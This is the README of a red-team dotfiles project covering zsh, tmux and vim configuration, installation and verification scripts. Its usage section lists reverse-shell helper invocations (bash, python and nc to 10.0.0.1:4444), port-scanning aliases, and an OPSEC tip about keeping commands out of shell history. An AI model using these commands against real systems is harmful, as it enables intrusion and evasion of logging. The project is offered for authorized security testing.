

# Red Team Dotfiles

[](assets/dotfiles-banner.svg)

[](VERSION)
[](https://dotfiles.teamoperator.red)
[](zsh/.zshrc)
[](tmux/.tmux.conf)
[](vim/.vimrc)

**Operator Field Kit** for **zsh**, **tmux**, and **vim** tailored for authorized red-team operations. Portable shell ergonomics, OPSEC-aware defaults, tmux workflow shortcuts, and terminal-first Vim behavior without extra runtime dependencies.

[Docs](https://dotfiles.teamoperator.red) • [Wiki](https://github.com/Maleick/dotfiles/wiki) • [Install](#-installation) • [Verification](#validation-wrapper)

## ✨ Features

- 🔴 **Red Team Focused**: Aliases and functions for penetration testing
- 🎯 **Terminal Agnostic**: Consistent prompt and behavior across modern terminals
- 🌐 **Network Tools**: IPv4/IPv6 IP detection with service redundancy
- 🛡️ **OPSEC Aware**: Commands starting with space aren't logged
- 🧰 **aliasr Integration**: `a` alias in zsh and tmux keybindings for the aliasr pentest launcher
- 🧭 **Terminal-Aware Runtime**: Shell detects terminal emulator (iTerm2, Warp, etc.) and adapts prompt/title behavior
- 🧪 **Startup Hardened**: `zsh` startup uses guarded optional loaders and fail-soft helper paths
- 🧱 **Helper Fallbacks**: Core helper commands use guarded fallback paths across host differences
- 🧾 **Tmux History Capture**: `Prefix + S` saves pane history to `~/Logs`
- 📝 **Vim Startup Fallbacks**: Vim starts cleanly even when optional plugin tooling is unavailable
- ⚡ **Fast & Clean**: Minimal overhead, maximum functionality
- 🔧 **Cross-Platform**: Works on macOS, Linux, and WSL2

## 🚀 Installation

### Prerequisites

- [Zsh](https://www.zsh.org/) - Shell
- [Tmux](https://github.com/tmux/tmux/wiki) - Terminal multiplexer
- [Vim](https://www.vim.org/) - Text editor

### Quick Install

```bash
# Clone the repository
git clone https://github.com/Maleick/dotfiles.git /opt/dotfiles
cd /opt/dotfiles

# Run the install script
./install.sh
```

### What it does

1. Creates backup of existing dotfiles
2. Symlinks zsh, tmux, and vim configurations
3. Sets up red team aliases and functions

### Verify Installation

```bash
# Restart your shell or run
source ~/.zshrc

# Check available commands
/help
```

### Baseline Verification

Use the Phase 1 checklist for repeatable installer and runtime baseline checks:

- `.planning/phases/01-installation-baseline/01-VERIFICATION-CHECKLIST.md`

The checklist includes syntax checks, tmux/vim startup sanity, installer rerun validation, and expected symlink targets.

### Shell Reliability Verification

After shell-focused changes, run these checks from repo root:

```bash
zsh -n zsh/.zshrc
TERM_PROGRAM=WarpTerminal ZDOTDIR=/opt/dotfiles/zsh zsh -i -c 'echo "${WARP_TERMINAL:-0}"'
TERM_PROGRAM=Apple_Terminal ZDOTDIR=/opt/dotfiles/zsh zsh -i -c 'echo "${WARP_TERMINAL:-0}"'
ZDOTDIR=/opt/dotfiles/zsh zsh -i -c 'base64decode dGVzdA=='
ZDOTDIR=/opt/dotfiles/zsh zsh -i -c 'localip >/dev/null && netinfo >/dev/null'
```

Expected behavior:

- Warp shell check prints `1`; non-Warp prints `0`.
- `base64decode dGVzdA==` prints `test` on macOS and Linux.
- `myip*`, `localip`, and `netinfo` use guarded fallbacks before failing.
- `webserver`, `http-server`, `https-server`, and `quickscan` return actionable errors when dependencies are missing.

### Documentation & Release Verification Checklist

Run this checklist after reliability or docs/release updates to verify end-to-end consistency:

```bash
# 1) Install/symlink baseline
./install.sh
ls -l ~/.zshrc ~/.tmux.conf ~/.vimrc

# 2) Shell checks
zsh -n zsh/.zshrc
TERM_PROGRAM=WarpTerminal ZDOTDIR=/opt/dotfiles/zsh zsh -i -c 'echo "${WARP_TERMINAL:-0}"'
TERM_PROGRAM=Apple_Terminal ZDOTDIR=/opt/dotfiles/zsh zsh -i -c 'echo "${WARP_TERMINAL:-0}"'
ZDOTDIR=/opt/dotfiles/zsh zsh -i -c 'base64decode dGVzdA=='

# 3) Tmux checks
tmux -f /opt/dotfiles/tmux/.tmux.conf -L gsd-docs-check start-server \; kill-server
rg -n '^bind (S|U|K|s) ' tmux/.tmux.conf
rg -n 'Logs|choose-tree|aliasr' tmux/.tmux.conf

# 4) Vim checks
vim -Nu /opt/dotfiles/vim/.vimrc -n -es -c 'qa!'
TMP_HOME="$(mktemp -d)" && HOME="$TMP_HOME" vim -Nu /opt/dotfiles/vim/.vimrc -n -es -c 'qa!' && rm -rf "$TMP_HOME"
rg -n "catppuccin_mocha|dracula|molokai|plug#begin|coc#refresh" vim/.vimrc

# 5) Docs/release integrity checks
VER="$(cat VERSION)"
rg -n "^## \\[$VER\\]" CHANGELOG.md
rg -n "version-" README.md
```

Expected outcomes:

- All commands exit successfully.
- Runtime contract claims in docs map to current source files.
- `VERSION` and latest changelog release header are consistent.

### Validation Wrapper (Phase 7 Modes)

Run the repo-root verification wrapper:

```bash
./scripts/verify-suite.sh
```

Wrapper contract:

- Runs non-interactively from repository root (read-only verification; does not run `install.sh`).
- Default mode (no flags) prints deterministic per-check statuses: `PASS`, `FAIL`, `SKIP`.
- Default mode prints a deterministic summary line with PASS/FAIL/SKIP counts.
- Exits `0` only if required checks pass; exits non-zero when any required check fails.
- Tmux uses built-in history capture and `choose-tree` session switching.

Additional modes:

```bash
# Quick mode: locked minimum required-check subset + explicit quick skips
./scripts/verify-suite.sh --quick

# Machine-readable mode (JSON payload)
./scripts/verify-suite.sh --json

# Combined mode: quick selection + JSON output
./scripts/verify-suite.sh --quick --json
```

Mode behavior notes:

- `--quick` preserves required failure semantics and surfaces full-only required checks as explicit quick-mode `SKIP` entries.
- `--json` emits deterministic per-check records plus deterministic summary counts.
- `--quick --json` uses quick-mode check selection with JSON output.
- Backward compatibility is preserved for existing no-flag usage.

### Compatibility Matrix (Phase 6 Coverage)

Compatibility guidance is tracked in:

- `.planning/compatibility/v1.1-matrix.md`

Automated row update flow (Phase 8):

```bash
# Capture observed evidence from current host
./scripts/verify-suite.sh --json > /tmp/verify-evidence.json

# Update an existing matrix key (Environment Profile + Check Scope)
./scripts/update-compat-matrix.sh \
  --evidence /tmp/verify-evidence.json \
  --env-profile "macOS (Darwin arm64, current host)" \
  --check-scope "install/shell/tmux/vim/docs parity" \
  --caveat "host-specific: observed wrapper JSON run from current host" \
  --command-ref "./scripts/verify-suite.sh --json" \
  --date 2026-02-25
```

Automation behavior:

- Uses observed wrapper evidence only (`./scripts/verify-suite.sh --json` payloads).
- Uses matrix row identity key `Environment Profile` + `Check Scope`.
- Updates existing key rows in place; inserts new key rows deterministically.
- Fails fast on malformed evidence input or malformed matrix schema.
- Preserves status vocabulary constraints (`PASS` / `SKIP` / `FAIL`) and required fields:
  - `Environment Profile`
  - `Check Scope`
  - `Status`
  - `Caveat`
  - `Command Set Reference`
  - `Last Validated`

How to use it:

- Treat matrix rows as observed command-run outcomes, not inferred platform claims.
- Interpret statuses as:
  - `PASS`: observed run succeeded for the listed scope/environment.
  - `FAIL`: observed run failed for the listed scope/environment.
  - `SKIP`: not observed in that environment/session; read caveat before relying on it.
- Use `Command Set Reference` plus `Last Validated` to confirm evidence provenance and recency.

When verification/runtime/docs behavior changes, refresh matrix rows before milestone closeout so matrix expectations remain aligned with current contracts.

### Local Overrides (Optional)

For machine-specific or sensitive configurations (API keys, local paths, installer-added PATHs, etc.), create `~/.zshrc.local`:

```bash
# Create local overrides file
cat > ~/.zshrc.local << 'EOF'
# Machine-specific configurations
export MY_API_KEY="your-secret-key"

# Tool paths added by installers (bun, LM Studio, etc.)
export BUN_INSTALL="$HOME/.bun"
export PATH="$BUN_INSTALL/bin:$PATH"
EOF

chmod 600 ~/.zshrc.local
```

**Important**: When package installers append lines to `~/.zshrc`, move them to `~/.zshrc.local` instead — this keeps the git-tracked dotfile portable across machines. `.zshrc.local` is sourced automatically and is not synced to the repository.

## 💻 Usage Examples

### Network Reconnaissance

```bash
# External IP Detection (IPv4/IPv6)
myip                       # External IPv4 address (force IPv4)
myip6                      # External IPv6 address
myip-alt                   # Alternative service (ipinfo.io)
myip-check                 # Backup service (icanhazip.com)
get_external_ip            # Store IP in $EXTERNAL_IP variable
localip                    # Local IP address
netinfo                    # Complete network information

# Port Scanning
quickscan 192.168.1.0/24   # Fast subnet scan
nmap-top-ports 192.168.1.1 # Scan top 1000 ports
```

### Web Servers & Tools

```bash
webserver                  # HTTP server on port 8080
https-server               # HTTPS server (needs cert.pem/key.pem)
```

### Encoding/Decoding

```bash
base64encode "test data"   # dGVzdCBkYXRh
base64decode "dGVzdCBkYXRh" # test data
urlencode "hello world"    # hello%2Bworld
rot13                      # ROT13 cipher
```

### Reverse Shells

```bash
rev-shell bash 10.0.0.1 4444    # Bash reverse shell
rev-shell python 10.0.0.1 4444  # Python reverse shell
rev-shell nc 10.0.0.1 4444      # Netcat reverse shell
```

### Tmux Features

```bash
tmux                       # Start tmux session
# Prefix + S              # Save pane history
# Prefix + U / K          # Open aliasr in split pane (send-only / send+execute)
```

### aliasr Launcher

```bash
a                          # Open aliasr TUI for red-team commands (requires aliasr installed)
```

## 🔒 OPSEC Notes

- **Commands starting with space aren't logged** - Use ` command` for sensitive operations
- **Use only on authorized systems** - Respect applicable laws and regulations
- **Backup created automatically** - Install script backs up existing configs

## 🔄 Updates

```bash
# Update to latest version
cd /opt/dotfiles
git pull

# Check current version
cat VERSION
```

## 📝 Available Commands

```bash
# See all available red team commands
/help
```

---

**Note**: This project is for educational and authorized security testing only. Use responsibly and respect all applicable laws.

🔴 **Happy Red Teaming!** 🔴
